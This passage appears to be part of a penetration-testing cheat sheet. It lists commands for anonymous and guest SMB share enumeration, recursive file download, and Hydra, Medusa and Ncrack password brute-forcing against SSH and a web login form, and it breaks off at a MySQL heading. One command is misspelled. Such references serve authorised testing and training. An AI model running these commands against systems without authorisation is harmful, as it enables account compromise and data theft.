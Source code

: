 ```bash
crackmapexecexec smb --shares $ip -u '' -p ''
```

```bash
crackmapexec smb --shares $ip -u 'guest' -p ''
```

```bash
 enum4linux -U -G -r $ip
```

```bash
smbmap -u '' -p '' -R -H $ip
```

```bash
smbget -U '' -R smb://$ip/$dir
```

```bash
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

---

### Brute Force Tools (Hydra, Medusa, Ncrack)

Simple Hydra Brute Force for specific services

> ftp, ssh, pop3, mysql
> 

```bash
hydra -L users.txt -P users.txt $ip ssh -V -f
```

```bash
hydra -L users.txt -P users.txt $ip ssh -vV -f -e nsr -I
```

```bash
hydra -L users.txt -P users.txt -e nsr -q ssh://$ip -t 4 -w 5 -V -f
```

```bash
medusa -h $ip -U users.txt -P users.txt -M ssh -e ns -f -g 5 -r 0 -b -t 2 -v 4
```

```bash
ncrack $ip -U users.txt -P users.txt -p ssh -f -v
```

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $ip http-post-form "/folder/login.php:username=admin&password=^PASS^:Invalid Password!"
```

### MySQL Enumeration
